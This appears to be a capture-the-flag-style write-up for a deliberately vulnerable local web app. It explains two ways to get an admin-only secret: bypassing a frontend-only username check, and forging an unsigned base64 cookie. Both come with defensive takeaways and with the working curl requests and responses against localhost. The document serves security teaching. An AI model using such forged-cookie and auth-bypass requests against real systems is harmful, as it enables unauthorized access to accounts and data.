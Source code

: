 ## flow 
- on login page we give username,password(for simplicity anyone can login with any username,password combination except as admin)
- the code stops making backend request when user name is `admin`
- if the user name is not admin ,the code sends a post request
- it will get a cookie and store it in locastorage
- then we are redircted to profile page
- in profile page user is given a choice to fetch `the secret`
- the secret is visible `per the code` only to the admin user
- the code implements(tries to implement it as follows)
- it takes the previously stored cookie from localstorage
- it send back the cookie
- the backend reads the cookie and `based on cookie  value` it greets user
## solution
- there are multiple ways to get the secret
### way1
- when we try to login ,the code stops us from loggin in as admin
- the check as can be seen only on frontend part
- so we can use tools like curl,burpsuit to bypass this 
### takeaway
- we need to implement critical security restricion not just on fronend but also on backend side
### way2
- while fetchign the secret we see it works on basis of cookie
- it is not a jwt token,the validity is never verified
- which means user can easily manipulate it to admin
- so just changing the cookie value when gettng secret gives the answer
### takeaways
- always while checking user authenticy based on user provided value we need to check whether the saying itself is right or not
- we need to verify the authenticity of the said ones
- so we need to implement someting like a signature 
```
C:\home\radha> curl 'http://localhost:4001/login' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br' -H 'Referer: http://localhost:4001/login' -H 'Content-Type: application/json' -H 'Origin: http://localhost:4001' -H 'Connection: keep-alive' -H 'Sec-Fetch-Dest: empty' -H 'Sec-Fetch-Mode: cors' -H 'Sec-Fetch-Site: same-origin' --data-raw '{"name":"admin","password":"m,lm"}'
{"login status":"lgoin success","cookie":"YWRtaW4="}                                                                                                                                                                      
C:\home\radha> curl 'http://localhost:4001/secret' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br' -H 'Referer: http://localhost:4001/profile' -H 'Content-Type: application/json' -H 'Origin: http://localhost:4001' -H 'Connection: keep-alive' -H 'Sec-Fetch-Dest: empty' -H 'Sec-Fetch-Mode: cors' -H 'Sec-Fetch-Site: same-origin' --data-raw '{"cookie":"YWRtaW4="}'
{"secret":"hiadmincongrats! here is the key secret_key_of_b64_decode_congrats\n"}                                                                                                                                                                      
C:\home\radha> 
```